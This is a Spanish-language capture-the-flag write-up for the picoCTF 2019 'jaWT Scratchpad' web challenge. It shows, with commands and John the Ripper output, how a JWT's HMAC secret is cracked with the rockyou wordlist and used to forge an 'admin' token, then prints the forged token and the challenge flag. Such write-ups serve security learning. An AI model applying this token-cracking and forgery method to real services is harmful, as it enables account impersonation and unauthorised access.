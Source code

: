 # jaWT Scratchpad

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

Hints:
- What is that cookie?
- Have you heard of JWT?

## Solución
[JWT](https://jwt.io/)

Vemos que al logear nos genera un token JWT, al conocer la estructura de generacion podremos modificarlo para hacernos pasar por admin, pero no es tan sencillo, con la herramienta john vamos a obtener la key de la certificacion
Primero creamos un archivo token y a ese archivo le pasamos el contenido del token que nos genera al logearnos
```bash
┌──(kali㉿kali)-[~/…/Actividades/PicoCTF-2019/WEB/JaWT]
└─$ nano token
```
Queda algo asi
```bash
┌──(kali㉿kali)-[~/…/Actividades/PicoCTF-2019/WEB/JaWT]
└─$ cat token                
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWxkbyJ9.kYUzePfjodCreyYoc4wSN0sf4ypRmuKRsjJfo9jOy1c
```
Ahora nos vamos a la siguiente ruta
```bash
┌──(kali㉿kali)-[~]
└─$ cd /usr/share/wordlists 
```
Aqui se encuentra un archivo con el nombre rockyou.txt.gz, este archivo contiene las contraseñas que han sido hackeadas
Lo descomprimimos
```bash
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ sudo gzip -d rockyou.txt.gz
[sudo] password for kali: 
 
```
Ahora nos regresamos a donde tenemos el token y usamos la herramienta john para que pruebe palabra por palabra y nos de la key que necesitamos
```bash
┌──(kali㉿kali)-[~/…/Actividades/PicoCTF-2019/WEB/JaWT]
└─$ john token -w=/usr/share/wordlists/rockyou.txt
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:03 DONE (2022-05-24 19:34) 0.2762g/s 2043Kp/s 2043Kc/s 2043KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Nos dice que lo que buscamos es **ilovepico** 
Podemos ir a jwt.io que nos genera el token (el enlace esta en la seccion Referencias)
Si usamos el usuario admin y ponemos la key ilovepico nos generara algo asi
```jwt
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
```
El header es asi
```jwt
{
  "typ": "JWT",
  "alg": "HS256"
}
```
El payload es asi
```jwt
{
  "user": "admin"
}
```
y el verify signature asi
```jwt
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  
)
```

```
## Hello admin!

Here is your JaWT scratchpad!

picoCTF{jawt_was_just_what_you_thought_1ca14548}
```